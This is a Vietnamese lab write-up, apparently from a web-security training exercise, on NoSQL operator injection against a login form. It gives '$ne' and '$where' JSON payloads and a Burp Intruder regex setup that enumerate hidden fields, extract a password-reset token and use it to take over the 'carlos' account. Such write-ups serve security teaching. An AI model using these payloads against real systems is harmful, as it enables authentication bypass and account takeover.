# Write Up

Ban đầu sẽ thử nhập bừa mật khẩu xem nó trả về gì



Sau đó chúng ta sẽ thử để xem có Injection được không

```json
{"username":"carlos","password":{"$ne":"invalid"}}
```



Thấy giá trị trả về đã khác

```txt
Account locked: please reset your password
```

Vậy chúng ta sẽ thử tiến hành `Operator Injection`

Đầu tiên sẽ là tìm kiếm xem nó còn những trường gì chưa xuất hiện

Sử dụng `$where`

```json
{"username":"carlos","password":{"$ne":"invalid"}, "$where": "0"}
{"username":"carlos","password":{"$ne":"invalid"}, "$where": "1"}
```




Thấy `"$where": "0"` và `"$where": "1"` trả về giá trị khác nhau như lúc test thử nhập mật khẩu

Vậy là có thể Injection chỗ này với truy vấn `$where`

Chuyển nó sang Intruder và sửa câu lệnh `$where` thành

```json
{"username":"carlos","password":{"$ne":"invalid"}, "$where":"Object.keys(this)[1].match('^.{§§}§§.*')"}
```

Chọn `Cluster Bomb Attack`

Tại `Payloads` chọn `Payload position 1` tức là cặp `$$` đầu tiên

Chọn `Payload Type` là `Number`, range sẽ từ 1 đến 20 thôi cho ít



Tại `Payloads` chọn `Payload position 2` tức là cặp `$$` thứ hai

Chọn `Payload Type` là `Simple List`



Tại phần `Add from list` add những giá trị `a-z`, `A-Z`, `0-9`



Kết quả



Anh em có thể thấy nó sẽ ghép lại thành `username`, do tôi bị sót mất số `0` nên vậy

Vậy thì chúng ta có thể tiếp tục với trường tiếp theo sau khi biết trường thứ `[1]` là `username`



Trường tiếp theo là `password`



Tiếp theo là `email`



Tiếp là `pwResetTkn` có thể hiểu là `password reset token`, là thứ chúng ta đang cần và có thể là trường cuối, nhưng cũng thử nốt xem có trường nào nữa không


Kết quả trả về đều là `500`, vậy có thể khẳng định là đã hết trường

Bây giờ chúng ta sẽ trích xuất token ra theo cách chúng ta vừa làm tiếp

```json
{"username":"carlos","password":{"$ne":"invalid"}, "$where":"this.pwResetTkn.match('^.{}.*')"}
```



Vậy là chúng ta đã trích xuất được token

Việc cuối cùng cần làm là sửa URL thành

```txt
/forgot-password?pwResetTkn=a7389969723723ef
```

Đổi mật khẩu và đăng nhập lại là giải được lab